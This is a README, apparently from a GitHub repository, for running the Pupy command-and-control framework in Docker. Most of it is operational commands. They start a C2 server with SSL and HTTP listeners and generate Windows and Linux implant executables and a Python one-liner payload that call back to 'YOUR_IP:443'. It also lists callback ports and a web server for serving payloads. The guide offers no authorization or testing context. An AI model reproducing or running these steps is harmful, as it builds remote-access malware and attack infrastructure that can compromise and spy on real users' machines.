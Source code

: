 # Pupy C2 Docker Setup Guide

Pupy is no longer mainted and a lot of the requirements are outdated. This is a dockerized version of Pupy using pinned requirements and python3.8.

This enhanced Docker setup provides a flexible way to run both the Pupy server (pupysh) and payload generator (pupygen).

## Directory Structure

After running the setup, you'll have:

```bash
pupy-docker/
├── Dockerfile               # Enhanced Dockerfile
├── docker-entrypoint.sh     # Entrypoint script
├── docker-compose.yml       # Docker Compose configuration
├── pinned-requirements.txt  # Python dependencies
├── .env.example             # Environment variables example for Docker
├── config/                  # Configuration files (auto-created)
│   └── pupy.conf.example    # Example Pupy configuration rename to pupy.conf to use
├── output/                  # Generated payloads (auto-created)
└── data/                    # Persistent data (auto-created)
```

## Quick Start

1. **Build the image:**

   ```bash
   docker-compose build
   ```

2. **Start the Pupy server:**

   ```bash
   docker-compose up -d pupy-server
   ```

3. **View logs:**

   ```bash
   docker-compose logs -f pupy-server
   ```

## Configuration

### Using Custom Configuration

1. On first run, the default configuration is copied to `./config/pupy.conf`
2. Edit `./config/pupy.conf` to customize your setup
3. Restart the container to apply changes:

   ```bash
   docker-compose restart pupy-server
   ```

### Key Configuration Options

Edit `./config/pupy.conf` to modify:

- **Listeners**: Change ports and transports in `[listeners]` section
- **Transport settings**: Configure SSL, HTTP, etc. in respective sections
- **Paths**: Modify data storage locations in `[paths]` section
- **Credentials**: Will be auto-generated on first run

## Running Commands

### Pupy Server (pupysh)

**Interactive mode:**

```bash
docker-compose run --rm pupy-server pupysh
```

**With custom listeners:**

```bash
docker-compose run --rm pupy-server pupysh -l ssl 0.0.0.0:443
```

**Multiple listeners:**

```bash
docker-compose run --rm pupy-server pupysh -l ssl 443 -l http 80
```

### Payload Generator (pupygen)

**Generate Windows payload:**

```bash
docker-compose run --rm pupy-generator pupygen -O windows -A x64 -o ./output/payload.exe
```

**Generate Linux payload:**

```bash
docker-compose run --rm pupy-generator pupygen -O linux -A x64 -o ./output/payload.lin
```

**Generate Python payload:**

```bash
docker-compose run --rm pupy-generator pupygen -f py -o ./output/payload.py
```

**List available options:**

```bash
docker-compose run --rm pupy-generator pupygen -l
```

### Understanding the Module Structure

Pupy uses Python's module system:

- `python -m pupy.cli` runs pupysh (via __main__.py)
- `python -m pupy.cli.pupygen` runs pupygen module
- Both commands properly set up the Python path and imports

### Using Profile for Generator

You can also use the generator profile:

```bash
docker-compose --profile generator run pupy-generator pupygen -O windows -A x64
```

## Port Mappings

Default port mappings in docker-compose.yml:

- **443**: SSL/TLS (default)
- **8443**: Alternative SSL
- **80**: HTTP
- **8080, 8081**: Alternative HTTP
- **9090**: Obfs3 transport
- **9091**: RSA transport
- **123/udp**: UDP transport
- **1234**: TCP cleartext/EC4
- **1235**: ECM transport
- **9000**: Web server for payloads

## Environment Variables

Create a `.env` file from `.env.example`:

```bash
cp .env.example .env
```

Available variables:

- `EXTERNAL_IP`: Set your external IP for payload callbacks
- `PUPY_TRANSPORT`: Default transport (ssl, http, etc.)

## Persistent Data

All data is stored in mounted volumes:

- `./config/`: Configuration files
- `./output/`: Generated payloads
- `./data/`: Runtime data (logs, downloads, etc.)

## Examples

### Basic Server Setup

```bash
# Start server with default SSL listener on port 443
docker-compose up -d pupy-server

# Check status
docker-compose ps

# View logs
docker-compose logs -f pupy-server
```

### Generate Payloads

```bash
# Windows 64-bit executable
docker-compose run --rm pupy-generator pupygen -O windows -A x64 -o ./output/win64.exe

# Linux 64-bit with custom transport
docker-compose run --rm pupy-generator pupygen -O linux -A x64 -t ssl --host YOUR_IP:443 -o ./output/linux64

# Python oneliner
docker-compose run --rm pupy-generator pupygen -f py_oneliner -t ssl --host YOUR_IP:443
```

### Interactive Shell

```bash
# Get a bash shell in the container
docker-compose run --rm pupy-server bash

# Run pupysh interactively
docker-compose run --rm -it pupy-server pupysh
```

## Troubleshooting

### Permission Issues

If you encounter permission issues with mounted volumes:

```bash
# Fix ownership
sudo chown -R 1000:1000 ./config ./output ./data
```

### Port Conflicts

If ports are already in use, modify the port mappings in `docker-compose.yml`:

```yaml
ports:
  - "4433:443"  # Map to different external port
```

### Container Won't Start

Check logs for errors:

```bash
docker-compose logs pupy-server
```

## Security Notes

1. **Change default credentials**: On first run, new SSL certificates are generated
2. **Firewall**: Only expose necessary ports
3. **Configuration**: Review and harden `pupy.conf` settings
4. **Updates**: Regularly rebuild the image to get security updates

## Advanced Usage

### Custom Dockerfile Build Args

```bash
docker-compose build --build-arg PUPY_UID=2000 --build-arg PUPY_GID=2000
```

### Running with Specific Config

```bash
docker run -it --rm \
  -v $(pwd)/custom-config:/opt/pupy/config \
  -v $(pwd)/output:/opt/pupy/output \
  -p 443:443 \
  pupy-server:py38-enhanced pupysh
```